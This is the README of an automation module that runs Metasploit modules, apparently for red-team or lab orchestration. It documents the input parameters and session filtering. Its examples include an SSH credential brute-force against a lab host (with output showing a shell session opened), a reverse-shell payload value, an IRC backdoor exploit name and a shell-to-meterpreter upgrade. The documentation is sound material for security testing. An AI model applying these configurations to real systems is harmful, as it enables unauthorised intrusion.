 
## Description
Module orchestrates [Metasploit Framework](https://github.com/rapid7/metasploit-framework).

## Prerequisites
Metasploit must be accessible from Worker it will be executed on.

## Input parameters

### `module_type`
Type of Metasploit module (valid values: `exploit`, `post`, `encoder`, `auxiliary`, `nop`, `payload`).

| Name          | Type   | Required | Default value | Example value |
|---------------|--------|----------|---------------|---------------|
| `module_type` | string | &check;  |               | `exploit`     |

### `module`
Name of Metasploit module.

| Name     | Type   | Required | Default value | Example value                        |
|----------|--------|----------|---------------|--------------------------------------|
| `module` | string | &check;  |               | `unix/irc/unreal_ircd_3281_backdoor` |

### `module_options`
Object with options for the given module.

| Name             | Type   | Required | Default value | Example value         |
|------------------|--------|----------|---------------|-----------------------|
| `module_options` | object | &cross;  |               | `{"RHOST": "target"}` |

### `payload`
Name of payload to use. **Can be combined with `exploit` module only.**

| Name      | Type   | Required | Default value | Example value           |
|-----------|--------|----------|---------------|-------------------------|
| `payload` | string | &cross;  |               | `cmd/unix/reverse_perl` |

### `payload_options`
Object with options for the given payload.

| Name              | Type   | Required | Default value | Example value            |
|-------------------|--------|----------|---------------|--------------------------|
| `payload_options` | object | &cross;  |               | `{"LHOST": "localhost"}` |

### `wait_for_result`
Whether the module should be executed as background job. If False the module is executed without waiting for the job to finish. Be aware, that then the console output of the module's execution may not be fully captured. If this option is set to True, the module waits until the job is completed and the output of the module is fully captured.

| Name              | Type    | Required | Default value | Example value |
|-------------------|---------|----------|---------------|---------------|
| `wait_for_result` | boolean | &cross;  | `true`        | `false`       |

### `module_timeout`
Number of seconds to wait before the module execution will be terminated.

| Name              | Type    | Required | Default value | Example value |
|-------------------|---------|----------|---------------|---------------|
| `module_timeout` | integer | &cross;  | `120`         | `300`         |

### `module_retries`
Defines how many times should metasploit module try to be executed, if it didn't finish successfully until the `module_timeout`is reached.

| Name              | Type    | Required | Default value | Example value |
|-------------------|---------|----------|---------------|---------------|
| `module_retries` | integer | &cross;  | `3`           | `1`           |

### `ignore_old_sessions`
Ignore sessions created before the module execution.

| Name                  | Type    | Required | Default value | Example value |
|-----------------------|---------|----------|---------------|---------------|
| `ignore_old_sessions` | boolean | &cross;  | `true`        | `false`       |

### `session_filter`
Group of parameters used to match the desired session. Check [here](#filtering-sessions) for more information.

| Name             | Type   | Required | Default value | Example value             |
|------------------|--------|----------|---------------|---------------------------|
| `session_filter` | object | &cross;  |               | `{"type": "meterpreter"}` |

Use the following parameters to filter sessions:

| Name         | Type    | Required | Default value | Example value                             |
|--------------|---------|----------|---------------|-------------------------------------------|
| type         | string  | &cross;  |               | meterpreter                               |
| tunnel_local | string  | &cross;  |               | 127.0.1.1:4433                            |
| tunnel_peer  | string  | &cross;  |               | 127.0.0.1:41990                           |
| via_exploit  | string  | &cross;  |               | exploit/multi/handler                     |
| via_payload  | string  | &cross;  |               | payload/linux/x86/meterpreter/reverse_tcp |
| desc         | string  | &cross;  |               | Meterpreter                               |
| info         | string  | &cross;  |               | user @ 1.2.3.4                            |
| workspace    | string  | &cross;  |               | default                                   |
| session_host | string  | &cross;  |               | 127.0.0.1                                 |
| session_port | integer | &cross;  |               | 41990                                     |
| target_host  | string  | &cross;  |               | 127.0.0.1                                 |
| username     | string  | &cross;  |               | unknown                                   |
| uuid         | string  | &cross;  |               | ryb0fvnj                                  |
| exploit_uuid | string  | &cross;  |               | di40gcmz                                  |
| routes       | string  | &cross;  |               |                                           |
| arch         | string  | &cross;  |               | x86                                       |
| platform     | string  | &cross;  |               | linux                                     |

## Examples

### SSH login module
Input:
```yaml
module_arguments:
  module_type: auxiliary
  module: scanner/ssh/ssh_login
  module_options:
    RHOSTS: CHANGE ME
    USERNAME: vagrant
    PASSWORD: vagrant
```

Output:
```json
{
  "result": "ok", 
  "output": "VERBOSE => True\nBRUTEFORCE_SPEED => 5\nBLANK_PASSWORDS => false\nUSER_AS_PASS => false\nDB_ALL_CREDS => false\nDB_ALL_USERS => false\nDB_ALL_PASS => false\nDB_SKIP_EXISTING => none\nSTOP_ON_SUCCESS => false\nREMOVE_USER_FILE => false\nREMOVE_PASS_FILE => false\nREMOVE_USERPASS_FILE => false\nTRANSITION_DELAY => 0\nMaxGuessesPerService => 0\nMaxMinutesPerService => 0\nMaxGuessesPerUser => 0\nCreateSession => true\nAutoVerifySession => true\nTHREADS => 1\nShowProgress => true\nShowProgressPercent => 10\nRPORT => 22\nSSH_IDENT => SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3\nSSH_TIMEOUT => 30\nSSH_DEBUG => false\nGatherProof => true\nRHOSTS => 192.168.56.51\nUSERNAME => vagrant\nPASSWORD => vagrant\nDisablePayloadHandler => True\n[*] 192.168.56.51:22 - Starting bruteforce\n[+] 192.168.56.51:22 - Success: 'vagrant:vagrant' 'uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant) Linux vagrant-ubuntu-trusty-64 3.13.0-170-generic #220-Ubuntu SMP Thu May 9 12:40:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '\n[!] No active DB -- Credential data will not be saved!\n[*] SSH session 1 opened (192.168.56.50:36169 -> 192.168.56.51:22) at 2022-08-04 17:03:56 +0200\n[*] Scanned 1 of 1 hosts (100% complete)\n[*] Auxiliary module execution completed\n",
  "serialized_output": {"session_id": 1} 
}
```

### Upgrade shell session
```yaml
module_arguments:
  session_filter:
    target_host: {{ attackerHost }}
    via_exploit: exploit/multi/handler
    type: meterpreter
  module_type: post
  module: multi/manage/shell_to_meterpreter
  module_options:
    LHOST: {{ attackerHost }}
    SESSION: 1
```

## Troubleshooting
Currently, the module only allows Metasploit module execution - `db_nmap` and other commands are unsupported.

### Filtering sessions
If a module/exploit returns a session, we have to filter the rest of the sessions.

By default, if `RHOSTS` or `RHOST` (non-case sensitive) is defined in the `module_options` parameter, the following data is used to match the session.
```json
{"target_host": "<RHOSTS/RHOST>", "via_exploit": "<module>", "via_payload": "<payload>"}
```

## Output serialization
Only the session ID is serialized.

`serialized_output` contains:

| Parameter name | Parameter description                        |
|----------------|----------------------------------------------|
| `session_id`   | ID of the created session (only if created). |
